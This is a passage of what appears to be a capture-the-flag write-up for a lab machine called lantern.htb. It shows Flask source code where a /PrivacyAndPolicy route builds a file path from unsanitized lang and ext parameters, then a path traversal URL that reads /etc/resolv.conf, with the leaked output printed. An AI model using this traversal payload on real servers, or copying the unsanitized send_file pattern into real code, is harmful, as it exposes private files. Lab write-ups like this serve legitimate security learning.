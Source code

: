 ```
def vacancies():
    return render_template('vacancies.html')

@app.route('/submit', methods=['POST'])
def save_vacancy():
    name = request.form.get('name')
    email = request.form.get('email')
    vacancy = request.form.get('vacancy', default='Middle Frontend Developer')

    if 'resume' in request.files:
        try:
            file = request.files['resume']
            resume_name = file.filename
            if resume_name.endswith('.pdf') or resume_name == '':
                filename = secure_filename(f"resume-{name}-{vacancy}-latern.pdf")
                upload_folder = os.path.join(os.getcwd(), 'uploads')
                destination = '/'.join([upload_folder, filename])
                file.save(destination)
            else:
                return "Only PDF files allowed!"
        except:
            return "Something went wrong!"
    return "Thank you! We will conact you very soon!"

@app.route('/PrivacyAndPolicy')
def sendPolicyAgreement():
    lang = request.args.get('lang')
    file_ext = request.args.get('ext')
    try:
            return send_file(f'/var/www/sites/localisation/{lang}.{file_ext}') 
    except: 
            return send_file(f'/var/www/sites/localisation/default/policy.pdf', 'application/pdf')

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=8000)
    
```

from the source code, we can find the `path traversal` vulnerability.
`return send_file(f'/var/www/sites/localisation/{lang}.{file_ext}') `

In the /PrivacyAndPolicy route, it allows users to download files based on the lang and file_ext parameters. If these parameters are not properly sanitized, it could lead to path traversal attacks, allowing an attacker to access sensitive files outside the intended directory.

Therefore, we could craft a URL like /PrivacyAndPolicy?lang=../../../../etc/resolv&ext=conf (the file name must be concat with two parameters for {lang}.{ext}) to access the /etc/resolv.conf file or other sensitive files on the server:

```
/etc/resolv.conf
http://lantern.htb/PrivacyAndPolicy?lang=../../../../etc/resolv&ext=conf

# This is /run/systemd/resolve/stub-resolv.conf managed by man:systemd-resolved(8).
# Do not edit.
#
# This file might be symlinked as /etc/resolv.conf. If you're looking at
# /etc/resolv.conf and seeing this text, you have followed the symlink.
#
# This is a dynamic resolv.conf file for connecting local clients to the
# internal DNS stub resolver of systemd-resolved. This file lists all
# configured search domains.
#
# Run "resolvectl status" to see details about the uplink DNS servers
# currently in use.
```
